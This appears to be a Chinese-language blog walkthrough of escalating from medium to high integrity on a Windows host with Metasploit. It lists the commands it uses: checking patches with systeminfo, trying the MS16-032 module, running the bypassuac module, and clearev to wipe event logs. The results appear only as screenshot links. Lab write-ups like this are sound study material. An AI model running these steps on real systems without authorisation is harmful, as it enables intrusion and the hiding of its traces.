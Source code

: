 ```# msfconsole ```
当前权限是Mandatory Lable\Medium Mandatory Level 说明我们是一个标准用户，那么就需要将用户权限从标准用户提升到管理员，也就是Mandatory Lable\High Mandatory Level。

2 查看补丁情况

```systeminfo```

![](https://gitee.com/enomothem/myblogphoto/raw/master/img/image-20201207230547366.png)

我们就用最新的MS16-032来尝试提权，对应编号是KB3139914.

3 回到控制台

```Ctrl + C```  // y

```bg```

4 搜索MS16-032

```search MS16-032```

```use 0```

![](https://gitee.com/enomothem/myblogphoto/raw/master/img/image-20201207231420462.png)

5 设置session

```set session 1```

6 设置target（默认是0，32位的）

``` target 1```

![](https://gitee.com/enomothem/myblogphoto/raw/master/img/image-20201207231624001.png)

没有成功，别灰心。

7 bypassuac提权

```use exploit/windows/local/bypassuac```

```set session 1```

```exploit```

![](https://gitee.com/enomothem/myblogphoto/raw/master/img/image-20201207232837348.png)

又失败了呀。再试试别的吧。

> 正当我准备去找别的提权方法时，顺手再次尝试了一次exploit，没想到成功了！

![](https://gitee.com/enomothem/myblogphoto/raw/master/img/image-20201207233145450.png)

毛线哦，这。。。

> 正当我准备去睡觉时，我输出提权试试。没想到成功了！

![](https://gitee.com/enomothem/myblogphoto/raw/master/img/image-20201207233529045.png)

原来我一直误解了clearev的意思，那个？？？？乱码是没有这个命令的意思。并不是权限不够。

![](https://gitee.com/enomothem/myblogphoto/raw/master/img/image-20201207233909621.png)

这个直接到meterpreter上输入的。

```